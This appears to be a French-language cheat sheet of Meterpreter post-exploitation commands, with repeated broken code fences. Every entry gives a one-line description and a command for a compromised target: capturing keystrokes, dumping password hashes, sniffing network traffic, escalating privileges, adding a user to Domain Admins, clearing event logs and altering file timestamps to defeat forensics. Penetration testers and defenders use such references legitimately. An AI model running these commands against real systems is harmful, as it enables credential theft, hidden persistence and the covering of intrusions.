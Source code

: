 ```shell
```shell
### Extrait les frappes clavier capturées sur la cible
```bash
`keyscan_dump`
```shell
### Arrête la capture des frappes clavier sur la cible distante
```bash
`keyscan_stop`
```shell
### Obtient autant de privilèges que possible sur la cible
```bash
`getprivs`
```shell
### Prend le contrôle du clavier et/ou de la souris
```bash
`uictl enable <keyboard/mouse>`
```shell
### Exécute votre shell Meterpreter actuel en arrière-plan
```bash
`background`
```shell
### Extrait tous les hachages sur la cible
```bash
`hashdump`
```shell
### Charge le module sniffer
```bash
`use sniffer`
```shell
### Liste les interfaces disponibles sur la cible
```bash
`sniffer_interfaces`
```shell
### Démarre la capture sur la cible distante
```bash
`sniffer_dump <interfaceID> pcapname`
```shell
### Démarre la capture avec une plage spécifique pour un tampon de paquets
```bash
`sniffer_start <interfaceID> packet-buffer`
```shell
### Récupère les informations statistiques de l'interface que vous capturez
```bash
`sniffer_stats <interfaceID>`
```shell
### Arrête le sniffer
```bash
`sniffer_stop <interfaceID>`
```shell
### Ajoute un utilisateur sur la cible distante
```bash
`add_user <username> <password> -h <ip>`
```shell
### Ajoute un nom d'utilisateur au groupe Administrateurs du domaine sur la cible distante
```bash
`add_group_user <"Domain Admins"> <username> -h <ip>`
```shell
### Efface le journal des événements sur la machine cible
```bash
`clearev`
```shell
### Modifie les attributs de fichier, comme la date de création (mesure anti-forensique)
```bash
`timestomp`
```shell
### Redémarre la machine cible
```bash
`reboot`
```shell
---
```